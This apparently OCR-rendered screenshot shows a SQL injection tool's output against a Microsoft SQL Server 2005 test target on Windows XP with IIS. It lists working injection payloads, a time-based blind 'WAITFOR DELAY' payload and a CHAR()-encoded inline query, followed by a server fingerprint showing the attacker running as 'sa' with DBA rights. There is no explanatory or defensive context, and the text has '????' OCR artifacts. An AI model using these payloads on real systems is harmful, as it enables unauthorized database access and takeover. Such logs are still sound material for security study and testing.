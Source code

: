 ```

????Type: AND/OR time-based blind
????Title: Microsoft SQL Server/Sybase time-based blind
????Payload: id=1 WAITFOR DELAY '0:0:5'--

????Type: inline query
????Title: Microsoft SQL Server/Sybase inline queries
????Payload: id=(SELECT CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (6382=6382) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58))
---
web server operating system: Windows XP
web application technology: ASP, Microsoft IIS 5.1
back-end DBMS operating system: Windows XP Service Pack 2
back-end DBMS: Microsoft SQL Server 2005
banner:
---
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) 
????Oct 14 2005 00:33:37 
????Copyright (c) 1988-2005 Microsoft Corporation
????Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
---
current user:????'sa'
current database:????'testdb'
current user is DBA:????True

[*] shutting down at 11:25:52

```
